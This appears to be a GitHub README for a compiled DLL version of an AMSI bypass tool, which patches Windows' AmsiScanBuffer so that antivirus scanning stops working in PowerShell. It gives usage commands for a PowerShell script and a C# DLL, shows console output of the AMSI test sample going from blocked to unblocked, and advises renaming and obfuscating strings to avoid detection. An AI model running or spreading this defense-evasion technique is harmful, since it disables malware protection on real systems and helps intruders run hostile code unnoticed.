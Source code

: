 # AmsiScanBufferBypass

##Original code here: https://github.com/rasta-mouse/AmsiScanBufferBypass
This is a compiled DLL version for the CS file used by Daniel Duggan for memory hijacking to bypass AmsiScanBuffer() bypass

#NOTE:
Make sure you rename the main folder to "Project" or something else as "AmsiScanBufferBypass" string is blacklisted by amsi and mere "cd" command won't run if the name isn't changed.

## Usage
### PowerShell

`ASBBypass.ps1` works for both x86 and x64 PowerShell.  Before use, I recommend obfuscating strings such as `Win32` to something random.

```
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
At line:1 char:1
+ Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS > .\ASBBypass.ps1

PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify
that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

### C#

```
PS > [System.Reflection.Assembly]::LoadFile("C:\Users\hex\Project\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     C:\Users\hex\Project\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll


PS > [Amsi]::Bypass()
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Also works with `Assembly.Load` in .NET 4.8.

